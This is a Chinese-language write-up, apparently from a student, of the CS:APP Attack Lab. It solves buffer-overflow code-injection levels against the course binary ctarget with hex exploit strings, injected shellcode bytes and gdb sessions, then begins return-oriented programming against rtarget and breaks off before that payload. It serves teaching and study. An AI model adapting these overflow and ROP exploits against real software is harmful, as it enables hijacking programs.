 Lab 3: Attack Lab
=================

0x01. 实验介绍
--------------
``attack lab`` 包含一对定制的x86-64二进制可执行目标文件，每个文件都存在着缓冲区溢出（buffer overflow）的程序错误（bug）。
实验中我们就会利用这些bug，通过输入特定的字符串，来达到缓冲区攻击的目的。
实验包含两个目标文件，一个用于代码注入攻击（code injection attack），另一个用于返回导向编程攻击（return-oriented programming attack）。
通过此实验，我们可以学习到：
* 当程序本身缺乏缓冲区溢出的防护时，攻击者如何利用此安全漏洞实现对程序的控制。
* 如何写出更加安全的代码，以及如何利用编译器和操作系统的相关特性保证代码的安全性。
* 对x86-64汇编代码的栈和传参机制的更深理解。
* 对x86-64汇编代码编码的更深理解。
* ``GDB`` 和 ``OBJDUMP`` 等调试工具的熟练使用。

总而言之，结合 ``CSAPP:3e`` 3.10.3和3.10.4节的书本内容，完成此实验，我们可以获得如果利用网络服务器和操作系统中的安全漏洞，实现攻击的第一手经验。

0x02. 实验环境搭建
------------------
实验环境的搭建同之前的实验一致，这里不再赘述。
实验的源代码可通过以下命令下载解压：

.. code-block:: console

    $ wget http://csapp.cs.cmu.edu/3e/target1.tar
    $ tar xvf target1.tar

进入实验目录，可以看到实验包含的文件：

.. code-block:: console

    $ ls
    $ cookie.txt  ctarget  farm.c  hex2raw  README.txt  rtarget

``README.txt`` 实验的简单介绍。
``ctarget`` 是用于代码注入攻击的可执行文件。
``rtarget`` 是用于返回导向编程的可执行文件。
``cookie.txt`` 是实验攻击者用作验证的8位数字的十六进制数。
``farm.c`` 是用作返回导向编程攻击中可选用的函数的C实现集合。
``hex2raw`` 是将我们输入的字符串转换成相应的缓冲区攻击字符串。

0x03. 攻击步骤及思路说明
----------------------

实验准备
^^^^^^^^^^^^
在开始攻击之前，我们先对实验进行基本的了解。
可执行文件 ``ctarget`` 和 ``rtarget`` 都是通过 ``getbuf`` 函数从标准输入中读取字符串。
从 ``getbuf`` 的函数定义可以看到， ``getbuf`` 通过调用 ``Gets`` 函数，将输入的字符串存在数组 ``buf`` 里，数组 ``buf`` 的大小则是由宏 ``BUFFER_SIZE`` 定义。
其中 ``Gets`` 函数的功能类似于 ``libc`` 标准库中的 ``gets`` 函数，从标准输入中读取字符串，然后将其存在特定位置。
无论是我们自定义的 ``Gets()`` 函数，还是 ``libc`` 中的 ``gets`` 函数，都无法判断存储字符串的缓存是否放得下读入的字符串。
两个函数只是简单地将字符串从缓存起始位置开始拷贝，拷贝的过程很有可能出现数组越界，对超出数组的部分进行写操作。我们可以利用这点，来完成我们设定的攻击。

.. code-block:: c

    unsigned getbuf()
    {
        char buf[BUFFER_SIZE];
        Gets(buf);
        return 1;
    }


我们先简单运行一下 ``ctarget`` 程序。注意，在我们的私有的Linux环境中，运行 ``ctarget`` 需加上 ``-q`` 参数（不发送结果到CMU的评分服务器）方可正常运行。

.. code-block:: console

    $ ./ctarget -q
    Cookie: 0x59b997fa
    Type string:hahaha
    No exploit.  Getbuf returned 0x1
    Normal return
    $ ./ctarget -q
    Cookie: 0x59b997fa
    Type string:this is just a test before doing the lab. I'm writing this nonsense here just to trigger the out-of-bound behavior.
    Ouch!: You caused a segmentation fault!
    Better luck next time
    FAIL: Would have posted the following:
            user id bovik
            course  15213-f15
            lab     attacklab
            result  1:FAIL:0xffffffff:ctarget:0:74 68 69 73 20 69 73 20 6A 75 73 74 20 61 20 74 65 73 74 20 62 65 66 6F 72 65 20 64 6F 69 6E 67 20 74 68 65 20 6C 61 62 2E 20 49 27 6D 20 77 72 69 74 69 6E 67 20 74 68 69 73 20 6E 6F 6E 73 65 6E 73 65 20 68 65 72 65 20 6A 75 73 74 20 74 6F 20 74 72 69 67 67 65 72 20 74 68 65 20 6F 75 74 2D 6F 66 2D 62 6F 75 6E 64 20 62 65 68 61 76 69 6F 72 2E

可以看到，当我们输入的字符串长度较小（小于 ``BUFFER_SIZE`` ）时，运行 ``ctarget`` ``Getbuf``函数正常返回1，没有发生数组越界。相反，如果字符串长度过长，发生字符串数组越界，就会导致程序执行异常，触发段错误（segmentation fault）。

关于输入的字符串，还需要注意的是，我们在标准输入中输入的字符串都是ASCII码表示的，要想在实际的缓存中表示成相应所需要的字符值，还要通过 ``hex2raw`` 来完成相应的转换。
由此，我们的攻击字符串在输入到 ``ctarget`` 或 ``rtarget`` 时，还要经过 ``hex2raw`` 的转换：

.. code-block:: console

    $ ./hex2raw < test1.txt | ./ctarget

关于 ``hex2raw`` 的具体使用方法，可参考 `官网writeup <http://csapp.cs.cmu.edu/3e/attacklab.pdf>`_ 中的附录A及其相关说明，这里不再赘述。
至此，实验的相关准备已经足够了，可以开始我们的攻击之旅。


第一部分：代码注入攻击
^^^^^^^^^^^^^^^^^^^^^

在第一部分中，我们将用构建的字符串攻击 ``ctarget`` 。 
``ctarget`` 可执行程序有两个特点：
* 每次运行时栈的位置保持不变。
* 栈上的数据可被执行。
我们将利用以上特点，输入特定的字符串来达到我们实验的目的。

Level 1
''''''''

**实验说明：**
在Level 1中，我们不会注入新代码，只是通过输入的字符串将程序重定向到另一个已有的函数执行。
在 ``ctarget`` 中， 函数 ``test`` 调用 ``getbuf`` 。 当调用完成后， 函数 ``test`` 会继续执行接下来的语句，即调用 ``printf`` 打印相应信息。

.. code-block:: c

    void test()
    {
        int val;
        val = getbuf();
        printf("No exploit. Getbuf returned 0x%x\n", val);
    }

在Level 1中，我们想要改变上述的执行顺序。当函数 ``getbuf`` 执行返回语句时，我们想要让 ``ctarget`` 执行函数 ``touch1``， 而不是之前的函数 ``printf``。
函数 ``touch1`` 的定义如下：

.. code-block:: c

    void touch1()
    {
        vlevel = 1;     /* Part of validation protocol */
        printf("Touch1!: You called touch1()\n");
        validate(1);
        exit(0);
    }

**攻击思路：**
了解了实验的内容，我们就可以开始我们Level 1的攻击。在攻击之前，我们可以下命令对 ``ctarget`` 进行反汇编，并将其保存在 ``ctarget.txt`` 中。

.. code-block:: console

    $ objdump -d ctarget | tee ctarget.txt

查看 ``ctarget.txt`` ，可以发现函数调用栈是 ``main --> stable_launch --> launch --> test --> getbuf --> Gets`` 。
想要改变函数 ``test`` 的执行流程，我们先看 ``test`` 的汇编代码：

.. code-block:: asm

    0000000000401968 <test>:
        401968:       48 83 ec 08             sub    $0x8,%rsp
        40196c:       b8 00 00 00 00          mov    $0x0,%eax
        401971:       e8 32 fe ff ff          callq  4017a8 <getbuf>
        401976:       89 c2                   mov    %eax,%edx
        401978:       be 88 31 40 00          mov    $0x403188,%esi
        40197d:       bf 01 00 00 00          mov    $0x1,%edi
        401982:       b8 00 00 00 00          mov    $0x0,%eax
        401987:       e8 64 f4 ff ff          callq  400df0 <__printf_chk@plt>
        40198c:       48 83 c4 08             add    $0x8,%rsp
        401990:       c3                      retq
        401991:       90                      nop
        401992:       90                      nop
        401993:       90                      nop
        401994:       90                      nop
        401995:       90                      nop
        401996:       90                      nop
        401997:       90                      nop
        401998:       90                      nop
        401999:       90                      nop
        40199a:       90                      nop
        40199b:       90                      nop
        40199c:       90                      nop
        40199d:       90                      nop
        40199e:       90                      nop
        40199f:       90                      nop

由汇编代码可以看出， ``test`` 在调用执行完 ``getbuf`` 函数后，下一条命令应该执行的是位于 ``0x401976`` 处的汇编代码，我们要做的，即是通过输入的字符串修改这个值。
再具体看一下函数 ``getbuf`` 以及 ``getbuf`` 调用的函数 ``Gets`` 的汇编代码：

.. code-block:: asm

    00000000004017a8 <getbuf>:
        4017a8:       48 83 ec 28             sub    $0x28,%rsp
        4017ac:       48 89 e7                mov    %rsp,%rdi ; 将栈顶作为参数传入Gets
        4017af:       e8 8c 02 00 00          callq  401a40 <Gets>
        4017b4:       b8 01 00 00 00          mov    $0x1,%eax
        4017b9:       48 83 c4 28             add    $0x28,%rsp
        4017bd:       c3                      retq
        4017be:       90                      nop
        4017bf:       90                      nop

    0000000000401a40 <Gets>:
        401a40:       41 54                   push   %r12
        401a42:       55                      push   %rbp
        401a43:       53                      push   %rbx
        401a44:       49 89 fc                mov    %rdi,%r12
        401a47:       c7 05 b3 36 20 00 00    movl   $0x0,0x2036b3(%rip)        # 605104 <gets_cnt>
        401a4e:       00 00 00
        401a51:       48 89 fb                mov    %rdi,%rbx
        401a54:       eb 11                   jmp    401a67 <Gets+0x27>
        401a56:       48 8d 6b 01             lea    0x1(%rbx),%rbp ; 读取输入的值，依次将值存在getbuf栈顶开始位置
        401a5a:       88 03                   mov    %al,(%rbx)
        401a5c:       0f b6 f8                movzbl %al,%edi
        401a5f:       e8 3c ff ff ff          callq  4019a0 <save_char>
        401a64:       48 89 eb                mov    %rbp,%rbx
        401a67:       48 8b 3d 62 2a 20 00    mov    0x202a62(%rip),%rdi        # 6044d0 <infile>
        401a6e:       e8 4d f3 ff ff          callq  400dc0 <_IO_getc@plt>
        401a73:       83 f8 ff                cmp    $0xffffffff,%eax
        401a76:       74 05                   je     401a7d <Gets+0x3d>
        401a78:       83 f8 0a                cmp    $0xa,%eax
        401a7b:       75 d9                   jne    401a56 <Gets+0x16>
        401a7d:       c6 03 00                movb   $0x0,(%rbx)
        401a80:       b8 00 00 00 00          mov    $0x0,%eax
        401a85:       e8 6e ff ff ff          callq  4019f8 <save_term>
        401a8a:       4c 89 e0                mov    %r12,%rax
        401a8d:       5b                      pop    %rbx
        401a8e:       5d                      pop    %rbp
        401a8f:       41 5c                   pop    %r12
        401a91:       c3                      retq

从以上汇编代码，我们可以看到函数 ``getbuf`` 开辟了40字节（0x28）的栈空间，并把栈顶传给函数 ``Gets`` ，函数 ``Gets`` 将输入的字符串从栈顶位置开始保存。对应的函数调用如图所示：

.. image:: ./../_images/ctarget_lv1.png


所以，如果我们想要 ``test`` 函数重定向执行函数 ``touch1`` ，只需将图中的地址返回值改为函数 ``touch1`` 的入口地址。
即构建一个长度为48字节的字符串，其中40~47字节的字符串为函数 ``touch1`` 的地址。需要注意的是 ``touch1`` 的地址构建的攻击字符串应按照小端序（little endian）的顺序放置在内存中。
将构建的字符串通过 ``hex2raw`` 程序进行转换，传给 ``ctarget`` 程序执行，Level 1攻击成功！

.. code-block:: console

    $ cat ctarget_lv1.txt
    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 c0 17 40 00 00 00 00 00
    $ ./hex2raw < ctarget_lv1.txt | ./ctarget -q
    Cookie: 0x59b997fa
    Type string:Touch1!: You called touch1()
    Valid solution for level 1 with target ctarget
    PASS: Would have posted the following:
            user id bovik
            course  15213-f15
            lab     attacklab
            result  1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 00


Level 2
''''''''

**实验说明：**
在Level 2中，我们要在输入的攻击字符串中包含一小段代码，将函数 ``test`` 的执行流程在调用完函数 ``getbuf`` 后重定向到函数 ``touch2``。
``touch2`` 的C代码如下所示：

.. code-block:: c

    void touch2(unsigned val)
    {
        vlevel = 2;     /* Part of validation protocol */
        if(val == cookie)
        {
            printf("Touch2!: You called touch2(0x%.8x)\n", val);
            validate(2);
        }
        else
        {
            printf("Misfire: You called touch2(0x%.8x)\n", val);
            fail(2);
        }
        exit(0);
    }

**攻击思路：**
由上述 ``touch2`` 函数的代码可以看出，Level2与Level1的不同在于，我们还要将cookie值作为参数传给重定向的函数 ``touch2``。
首先查看一下 ``touch2`` 的汇编代码。 

.. code-block:: asm

    00000000004017ec <touch2>:
        4017ec:       48 83 ec 08             sub    $0x8,%rsp
        4017f0:       89 fa                   mov    %edi,%edx
        4017f2:       c7 05 e0 2c 20 00 02    movl   $0x2,0x202ce0(%rip)        # 6044dc <vlevel>
        4017f9:       00 00 00
        4017fc:       3b 3d e2 2c 20 00       cmp    0x202ce2(%rip),%edi        # 6044e4 <cookie>
        401802:       75 20                   jne    401824 <touch2+0x38>
        401804:       be e8 30 40 00          mov    $0x4030e8,%esi
        401809:       bf 01 00 00 00          mov    $0x1,%edi
        40180e:       b8 00 00 00 00          mov    $0x0,%eax
        401813:       e8 d8 f5 ff ff          callq  400df0 <__printf_chk@plt>
        401818:       bf 02 00 00 00          mov    $0x2,%edi
        40181d:       e8 6b 04 00 00          callq  401c8d <validate>
        401822:       eb 1e                   jmp    401842 <touch2+0x56>
        401824:       be 10 31 40 00          mov    $0x403110,%esi
        401829:       bf 01 00 00 00          mov    $0x1,%edi
        40182e:       b8 00 00 00 00          mov    $0x0,%eax
        401833:       e8 b8 f5 ff ff          callq  400df0 <__printf_chk@plt>
        401838:       bf 02 00 00 00          mov    $0x2,%edi
        40183d:       e8 0d 05 00 00          callq  401d4f <fail>
        401842:       bf 00 00 00 00          mov    $0x0,%edi
        401847:       e8 f4 f5 ff ff          callq  400e40 <exit@plt>
  
``touch2`` 在 ``0x4017fc`` 处比较寄存器 ``%rdi`` 和cookie的值的大小。若相等，则从 ``0x401804`` 处执行；若不等，则从 ``0x401824`` 处执行。
两处不同执行路径的代码所打印的内容也不同，如下调试信息所示：

.. code-block:: console

    (gdb) x/s 0x4030e8
    0x4030e8:       "Touch2!: You called touch2(0x%.8x)\n"
    (gdb) x/s 0x403110
    0x403110:       "Misfire: You called touch2(0x%.8x)\n"

由此可见，Level2的攻击关键在于在重定向到函数 ``touch2`` 之前，将寄存器 ``%rdi`` 的值设置为cookie值。我们需要在写入的字符串里构建对应的汇编代码的编码。
用汇编语言实现即为 ``mov $0x59b997fa, %rdi`` 。 对应的指令编码可通过下述流程实现：

.. code-block:: console

    $ cat lv2.S # 先将 “mov $0x50b997fa, %rdi” 保存到lv2.S中
    mov $0x59b997fa, %rdi
    $ gcc -c lv2.S # 生成目标文件
    $ objdump -d lv2.o # 对生成的目标文件反汇编
    lv2.o:     file format elf64-x86-64


    Disassembly of section .text:

    0000000000000000 <.text>:
        0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi


由上述可知，汇编指令 ``mov $0x59b997fa, %rdi`` 的二进制编码为 ``48 c7 c7 fa 97 b9 59``。
构建好了设置寄存器 ``%rdi`` 的编码，我们还需将 ``test`` 执行完 ``getbuf`` 后的返回地址设置为汇编指令所在的位置。这里就利用到上述提及的 ``rtarget`` 运行栈地址不变和栈上可执行代码的特性。
``gdb`` 调试 ``ctarget`` ， 找到 ``getbuf`` 执行时的栈顶位置：

.. code-block:: console

    $ gdb ./ctarget
    (gdb) b getbuf
    Breakpoint 1 at 0x4017a8: file buf.c, line 12.
    (gdb) run -q
    Starting program: /home/jiewan01/CS4_Challenge/csapp_lab/target1/ctarget -q
    Cookie: 0x59b997fa

    Breakpoint 1, getbuf () at buf.c:12
    12      buf.c: No such file or directory.
    (gdb) stepi
    14      in buf.c
    (gdb) p/x $rsp
    $1 = 0x5561dc78

由此，我们可以确定我们想要的攻击字符串的形式。字符串的0~7字节（ ``getbuf`` 函数栈顶位置 ）存放如下汇编代码的二进制编码。40~47字节存放栈顶 ``%rsp`` 的值， ``test`` 执行完 ``getbuf`` 后将跳转到栈顶执行以下汇编指令。 48~55字节存放 ``touch2`` 函数的入口地址，这样在执行完栈顶的汇编代码（包含 ``ret`` ）指令后， ``test`` 将跳转到 ``touch2`` 函数继续执行。

.. code-block:: asm

    mov $0x59b997fa, %rdi
    ret

对应的函数调用如图所示：

.. image:: ./../_images/ctarget_lv2.png

用 ``hex2raw`` 程序将构建的字符串进行转换，传给 ``ctarget`` 程序执行，Level2攻击成功！

.. code-block:: console

    $ cat ctarget_lv2.txt
    48 c7 c7 fa 97 b9 59 c3  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  78 dc 61 55 00 00 00 00 ec 17 40 00 00 00 00 00
    $ ./hex2raw < ctarget_lv2.txt | ./ctarget -q
    Cookie: 0x59b997fa
    Type string:Touch2!: You called touch2(0x59b997fa)
    Valid solution for level 2 with target ctarget
    PASS: Would have posted the following:
            user id bovik
            course  15213-f15
            lab     attacklab
            result  1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 EC 17 40 00 00 00 00 00

Level 3
''''''''

**实验说明：**

Level 3的要求同Level 2基本一致，只不过在 ``test`` 重定向到函数 ``touch3`` 前传入字符串作为参数。
``touch3`` 的C代码如下所示：

.. code-block:: c

    void touch3(char *sval)
    {
        vlevel = 3;     /* Part of validation protocol */
        if (hexmatch(cookie, sval))
        {
            printf("Touch3!: You called touch3(\"%s\")\n", sval);
            validate(3);
        }
        else
        {
            printf("Misfire: You called touch3(\"%s\")\n", sval);
            fail(3);
        }
        exit(0);
    }

可以看到， ``touch3`` 调用 ``hexmatch`` 来比较cookie与输入字符串是否相等，对应 ``hexmatch`` 的C实现如下：

.. code-block:: c

    /* Compare string to hex representation of unsigned value */
    int hexmatch(unsigned val, char *sval)
    {
        char cbuf[110];
        /* Make position of check string unpredictable */
        char *s = cbuf + random() % 100;
        sprintf(s, "%.8x", val);
        return strncmp(sval, s, 9) == 0;
    }

``hexmatch`` 在栈上构建了长为110字节的字符串数组，并将 ``val`` 值作为字符串存储在 ``cbuf`` 随机位置。然后调用 ``strncmp`` 比较两个字符串是否相等。

**攻击思路：**
Level 3的攻击思路基本同Level 2一样，我们需要在重定向到 ``touch3`` 前，设置寄存器 ``%rdi`` 的值。Level 3中对应 ``%rdi`` 的值应为字符串 ``59b997fa`` （cookie的值去掉0x）的地址，由此我们需在栈上存放字符串，并将其地址传给 ``%rdi``。
即构建的汇编代码应如下所示：

.. code-block:: asm

    mov addr_of_string, %rdi ; addr_of_string should be the starting address for '59b997fa'
    ret

由Level 2中我们知道 ``getbuf`` 函数执行时的栈顶位置是 ``0x5561dc78``， 同Level 2一样，我们可将构建的攻击代码放在栈顶，对应栈上 ``%rsp + 8`` （ ``0x5561dc80`` ） 处存放字符串。
那对应汇编代码应为：

.. code-block:: asm

    mov $0x5561dc80, %rdi
    ret

按照以下步骤生成其二进制编码：

.. code-block:: console

    $ cat lv3.S
    mov $0x5561dc80, %rdi
    ret
    $ gcc -c lv3.S
    $ objdump -d lv3.o

    lv3.o:     file format elf64-x86-64


    Disassembly of section .text:

    0000000000000000 <.text>:
        0:   48 c7 c7 80 dc 61 55    mov    $0x5561dc80,%rdi
        7:   c3                      retq

根据 `ASCII表 <https://www.asciitable.com/>`_ 查找对应字符串 ``59b997fa`` 的ASCII码。
至此，我们可以构建出Level 3的攻击字符串，执行攻击：

.. code-block:: console

    $ cat ctarget_lv3.txt
    48 c7 c7 80 dc 61 55 c3  /* mov    $0x5561dc80,%rdi retq */
    35 39 62 39 39 37 66 61  /* string 59b997fa */
    00 00 00 00 00 00 00 00  /* junk */
    00 00 00 00 00 00 00 00  /* junk */
    00 00 00 00 00 00 00 00  /* junk */
    78 dc 61 55 00 00 00 00  /* return to execute exploit string */
    fa 18 40 00 00 00 00 00  /* return to execute touch3 */
    $ ./hex2raw < ctarget_lv3.txt | ./ctarget -q
    Cookie: 0x59b997fa
    Type string:Misfire: You called touch3("")
    FAIL: Would have posted the following:
            user id bovik
            course  15213-f15
            lab     attacklab
            result  1:FAIL:0xffffffff:ctarget:3:48 C7 C7 80 DC 61 55 C3 35 39 62 39 39 37 66 61 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 FA 18 40 00 00 00 00 00

奇怪的是，结果显示我们调用了 ``touch3`` 函数，但是攻击失败了，说明传入的字符串和给定字符串不匹配。检查了一遍字符串的ASCII码表示和对应的地址没有问题，这时实验 ``writeup`` 里针对Level 3的一条建议引发了我的思考：

    When functions ``hexmatch`` and ``strncmp`` are called, they push data onto the stack, overwriting portions of memory that held the buffer used by ``getbuf``. As a result, you will need to be careful where you place the string representation of your cookie.

会不会是调用 ``hexmatch`` 和 ``strncmp`` 函数的过程中，栈上放置字符串的内存被覆盖了？
我们用 ``gdb`` 调试一下上述的过程，设置相应的函数断点：

.. code-block:: console

    $ gdb ./ctarget
    (gdb) b test
    (gdb) b touch3
    (gdb) b hexmatch
    (gdb) layout regs
    (gdb) run -q -i ctarget_lv3.raw

``ctarget_lv3.raw`` 是 ``hex2raw`` 生成的字符串， ``run -q -i ctarget_lv3.raw`` 运行程序，进行单步调试。 单步调试进入 ``touch3`` 函数后， 把字符串所在的内存位置设置成观察点 ``watch *0x5561dc80`` 。 
继续单步调试，发现在代码 ``0x401863`` 处代码内存值发生变化，说明我们构建的字符串确实被覆盖重写了。

.. code-block:: console


    (gdb) si

    Hardware watchpoint 4: *0x5561dc80

    Old value = 962738485
    New value = 783582208
    0x0000000000401868 in hexmatch (val=1505335290, sval=sval@entry=0x5561dc80 "") at visible.c:62

分析下代码，可以看到 ``0x401863`` 处代码所作的事情是将寄存器 ``%rax`` 中的值赋给 ``%rsp + 0x78`` 处，对应的地址恰巧是 ``0x5561dc80`` 。 
由此可见，我们构建的字符串的8~55字节的内容，都会在 ``touch3`` 后续的执行过程中，被其调用的其它函数栈的内容覆盖。所以为了避免此情况，我们应将字符串放置在构建的攻击字符串的最前方，也就是 ``getbuf`` 的栈顶位置。
重组攻击字符串，再次运行，Level 3攻击成功！

.. code-block:: console

    $ cat ctarget_lv3_new.txt
    35 39 62 39 39 37 66 61  /* string 59b997fa */
    48 c7 c7 78 dc 61 55 c3  /* mov    $0x5561dc78,%rdi retq */
    00 00 00 00 00 00 00 00  /* junk */
    00 00 00 00 00 00 00 00  /* junk */
    00 00 00 00 00 00 00 00  /* junk */
    80 dc 61 55 00 00 00 00  /* return to execute exploit string */
    fa 18 40 00 00 00 00 00  /* return to execute touch3 */
    $ ./hex2raw < ctarget_lv3_new.txt | ./ctarget -q
    Cookie: 0x59b997fa
    Type string:Touch3!: You called touch3("59b997fa")
    Valid solution for level 3 with target ctarget
    PASS: Would have posted the following:
            user id bovik
            course  15213-f15
            lab     attacklab
            result  1:PASS:0xffffffff:ctarget:3:35 39 62 39 39 37 66 61 48 C7 C7 78 DC 61 55 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 80 DC 61 55 00 00 00 00 FA 18 40 00 00 00 00 00

对应的函数调用如图所示：

.. image:: ./../_images/ctarget_lv3.png


第二部分：返回导向编程攻击
^^^^^^^^^^^^^^^^^^^^^^^^

在第二部分中，相比于 ``ctarget``， 我们使用代码注入的方式去攻击 ``rtarget`` 的难度剧增，原因有二：

* ``rtarget`` 使用了栈随机化的技术，即每次运行栈的地址都不相同，导致很难确定注入代码应存放的位置
* ``rtarget`` 将栈上的内存标记为不可执行（nonexecutable），也就意味着在栈上执行我们注入的攻击代码会导致段错误（segmentation fault）

接下来的两个实验，我们将使用新的攻击方式---返回导向编程攻击，来完成 ``rtarget`` 实验。 
返回导向编程攻击的方法是找寻当前程序中符合模式的字节流，然后通过组合排列这些字节流来达到我们想要攻击的目的。这些字节流称之为攻击套件（gadget）。前面提到的模式一般指一条或多条指令后跟着一条 ``ret`` 指令，故称之为返回导向编程。
更详细的解释和说明可参考 `writeup <http://csapp.cs.cmu.edu/3e/attacklab.pdf>`_ 以及提及的论文。

Level 2
''''''''

**实验说明：**
实验的要求同 ``ctarget`` 的Level 2一致，只不过我们要从提供的攻击套件厂（gadget farm）找到我们能够使用的指令，攻击 ``rtarget`` 。
我们可以使用以下指令和寄存器类型， ``writeup`` 里都提供了相应的编码表格。

* movq
* popq
* ret
* nop
* %rax - %rdi

在攻击之前，我们可以用 ``objdump -d rtarget | tee rtarget.txt`` 对 ``rtarget`` 进行反汇编，并将其保存在 ``rtarget.txt`` 中。
查看 ``rtarget.txt`` ， 可以看到在函数 ``start_farm`` 与 ``end_farm`` 中间有多个 ``setval_xxx`` 和 ``getval_xxx`` 函数，我们将从这些函数中找到想要的攻击指令。

.. code-block:: console

    $ cat rtarget.txt
    ......
    0000000000401994 <start_farm>:
        401994:       b8 01 00 00 00          mov    $0x1,%eax
        401999:       c3                      retq

        000000000040199a <getval_142>:
        40199a:       b8 fb 78 90 90          mov    $0x909078fb,%eax
            40199f:       c3                      retq

        00000000004019a0 <addval_273>:
        4019a0:       8d 87 48 89 c7 c3       lea    -0x3c3876b8(%rdi),%eax
        4019a6:       c3                      retq
    ......
    0000000000401ab2 <end_farm>:
        401ab2:       b8 01 00 00 00          mov    $0x1,%eax
        401ab7:       c3                      retq
        401ab8:       90                      nop
        401ab9:       90                      nop
        401aba:       90                      nop
        401abb:       90                      nop
        401abc:       90                      nop
        401abd:       90                      nop
        401abe:       90                      nop
        401abf:       90                      nop


**攻击思路：**
在 ``ctarget`` 中的Level 2，我们通过将 ``touch2`` 执行完 ``getbuf`` 的下一条指令设置为我们在栈上注入代码的地址，来达到指令重定向以及给寄存器 ``%rdi`` 赋值为cookie的目的。
``rtarget`` 我们不能再这样做，因为其栈被设置为不可执行。那如何在重定向到 ``touch2`` 函数前将cookie值传给 ``%rdi`` 呢？
直接的方法是通过 ``popq`` 指令将栈上构建的cookie值弹出栈到寄存器中，再通过 ``mov`` 操作完成寄存器之间的赋值。
逐个查看 ``start_farm`` ~ ``end_farm`` 函数，对应在函数 ``addval_219`` 中，我们看到有字节流 ``58 90 c3`` ，其对应的汇编指令为:

.. code-block:: asm

    popq %rax
    nop
    ret

同理，在函数 ``setval_426`` 中，我们看到有字节流 ``48 89 c7 90 c3`` ，其对应的汇编指令为：

.. code-block:: asm

    movq %rax, %rdi
    nop
    ret

利用上述两个攻击套件，我们可按照如下图所示的方式构建我们的攻击字符串。

.. image:: ./../_images/rtarget_lv2.png

.. code-block:: console

    $ cat rtarget_lv2.txt
